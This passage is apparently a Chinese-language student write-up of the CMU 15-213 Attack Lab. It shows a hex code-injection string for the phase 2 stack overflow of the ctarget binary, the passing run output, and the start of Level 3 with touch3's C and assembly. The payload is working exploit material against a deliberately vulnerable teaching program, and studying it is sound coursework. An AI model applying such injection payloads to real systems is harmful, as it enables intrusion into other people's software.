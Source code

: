 构造攻击字符串，让程序在跳转到`touch3()`之前先执行我们注入的代码(一系列机器指令)，因为代码注入攻击实验中，我们多次运行程序时，栈的位置是固定的，所以我们直接用上个`phase`的`rsp`。

```txt
68 ec 17 40 00 48 c7 c7  /* addr: 0x5561dc78 to run my code */
fa 97 b9 59 c3 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00 /* addr: 0x5561dca0 jump to 0x5561dc78 */
```

测试一下，

```bash
$ ./ctarget -qi answer/phase_2_raw
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:68 EC 17 40 00 48 C7 C7 FA 97 B9 59 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
```

`PASS`!!!

我们需要意识到，因为栈的位置固定化以及栈中不限制可执行区域，导致了代码注入攻击实现起来相当的容易

### Level 3

下面，我们要在函数调用间传递的就不是一个值了，而是一个指向字符串的地址。

先看一个`touch3(char *sval)`的`C`语言和汇编语言表示：

```cpp
void touch3(char *sval){
    vlevel=3;
    if(hexmatch(cookie,sval)){
        printf("Touch3!: You called touch3(\"%s\")\n",sval);
        validate(3);
    }else{
        printf("Misfire: You called touch3(\"%s\")\n",sval);
        fail(3);
    }
    exit(0);
}
```

```s
00000000004018fa <touch3>:
  4018fa:	53                   	push   %rbx
  4018fb:	48 89 fb             	mov    %rdi,%rbx
  4018fe:	c7 05 d4 2b 20 00 03 	movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>
  401905:	00 00 00 
  401908:	48 89 fe             	mov    %rdi,%rsi
  40190b:	8b 3d d3 2b 20 00    	mov    0x202bd3(%rip),%edi        # 6044e4 <cookie>
  401911:	e8 36 ff ff ff       	callq  40184c <hexmatch>
  401916:	85 c0                	test   %eax,%eax
  401918:	74 23                	je     40193d <touch3+0x43>
  40191a:	48 89 da             	mov    %rbx,%rdx
  40191d:	be 38 31 40 00       	mov    $0x403138,%esi
  401922:	bf 01 00 00 00       	mov    $0x1,%edi
  401927:	b8 00 00 00 00       	mov    $0x0,%eax
  40192c:	e8 bf f4 ff ff       	callq  400df0 <__printf_chk@plt>
  401931:	bf 03 00 00 00       	mov    $0x3,%edi
  401936:	e8 52 03 00 00       	callq  401c8d <validate>
```